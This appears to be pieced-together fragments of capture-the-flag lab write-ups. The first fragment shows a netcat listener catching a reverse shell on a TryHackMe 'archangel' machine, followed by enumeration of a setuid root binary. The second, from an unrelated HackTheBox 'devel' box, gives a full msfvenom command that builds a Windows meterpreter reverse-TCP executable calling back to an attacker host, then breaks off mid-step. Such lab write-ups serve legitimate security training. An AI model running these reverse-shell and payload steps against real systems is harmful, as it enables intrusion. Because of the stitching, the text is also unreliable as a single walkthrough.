 ```
$ nc -lnvp 4242
listening on [any] 4242 ...
connect to [10.9.4.36] from (UNKNOWN) [10.10.102.133] 44904
/bin/sh: 0: can't access tty; job control turned off
$ whoami
archangel
$ ls -l
total 12
drwxr-xr-x 2 archangel archangel 4096 Nov 18 01:36 myfiles
drwxrwx--- 2 archangel archangel 4096 Nov 19 20:41 secret
-rw-r--r-- 1 archangel archangel   26 Nov 19 19:57 user.txt
$ cd secret
$ ls -al
total 32
drwxrwx--- 2 archangel archangel  4096 Nov 19 20:41 .
drwxr-xr-x 6 archangel archangel  4096 Nov 20 15:22 ..
-rwsr-xr-x 1 root      root      16904 Nov 18 16:40 backup
-rw-r--r-- 1 root      root         49 Nov 19 20:41 user2.txt
$ cat user2.txt
thm{xxxxxxxxxxx}
```


```
$ ls -l /home/archangel/secret/backup
-rwsr-xr-x 1 root root 16904 Nov 18 16:40 /home/archangel/secret/backup
```

```
$ ldd /home/archangel/secret/backup
        linux-vdso.so.1 (0x00007ffffa113000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f6d51886000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f6d51c77000)
```




We get access to the webshell:

![ImgPlaceholder](screenshots/webshell.png)

We create a reverse meterpreter executable:

```
user@kali:~/hackthebox/hackthebox/devel/upload$ msfvenom -p windows/meterpreter/reverse_tcp LHOST="10.10.14.27" LPORT=4444 -f exe > shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
```

We upload this executable and winPEAS.cmd using FTP to the host:
